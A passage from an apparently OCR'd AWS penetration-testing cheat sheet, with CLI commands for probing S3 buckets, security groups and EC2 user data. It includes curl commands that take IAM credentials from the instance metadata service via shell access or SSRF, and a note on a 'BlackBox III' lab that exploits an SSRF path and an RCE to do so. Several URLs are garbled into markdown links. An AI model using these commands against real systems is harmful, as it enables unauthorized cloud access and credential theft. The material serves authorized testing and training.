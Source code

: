 * **Check Bucket CORS Configuration:**
    ```bash
    aws s3api get-bucket-cors --bucket <bucket_name> --profile <profile_name>
    ```
* **Attempt to Read/Write Objects:**
    ```bash
    aws s3 cp s3://<bucket_name>/<object_key> . --profile <profile_name> # [--no-sign-request]
    echo "test" > test.txt && aws s3 cp test.txt s3://<bucket_name>/test.txt --profile <profile_name> # [--no-sign-request]
    # If PutObject is denied but PutObjectAcl is allowed, you might be able to change ACLs to gain read.
    ```
* **Check Bucket Versioning & Website Configurations:**
    ```bash
    aws s3api get-bucket-versioning --bucket <bucket_name> --profile <profile_name>
    aws s3api get-bucket-website --bucket <bucket_name> --profile <profile_name>
    ```

### EC2 (Elastic Compute Cloud) & Related Services (IMDS, SSM)

* **Review Security Group Rules:**
    ```bash
    aws ec2 describe-security-groups --group-ids <sg_id> --profile <profile_name> --region <region>
    # Look for overly permissive inbound rules (e.g., 0.0.0.0/0 for SSH, RDP), or internal rules that allow access from unexpected sources.
    ```
* **Check EC2 Instance Metadata Service (IMDS) if you gain shell access or via SSRF:**
    * **IMDSv1 (if available):**
        ```bash
        # From within the EC2 instance or via SSRF
        curl [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)
        curl [http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)<role_name>
        ```
    * **IMDSv2 (requires token, instance might be configured for "HttpTokens": "required"):**
        ```bash
        # From within the EC2 instance or via SSRF that supports PUT for token and subsequent GET with header
        TOKEN=$(curl -X PUT "[http://169.254.169.254/latest/api/token](http://169.254.169.254/latest/api/token)" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" 2>/dev/null)
        curl -H "X-aws-ec2-metadata-token: $TOKEN" [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/) 2>/dev/null
        curl -H "X-aws-ec2-metadata-token: $TOKEN" [http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)<role_name> 2>/dev/null
        ```
        The SSRF in "BlackBox III" abuses `/config?path=http://localhost/info?url=` to reach IMDS. The calculator page vulnerability allows RCE to fetch IMDSv2 token and credentials.
* **Examine User Data:**
    ```bash
    aws ec2 describe-instance-attribute --instance-id <instance_id> --attribute userData --profile <profile_name> --region <region> --query "UserData.Value" --output text | base64 --decode
    # Look for hardcoded secrets, scripts pulling from insecure S3 buckets.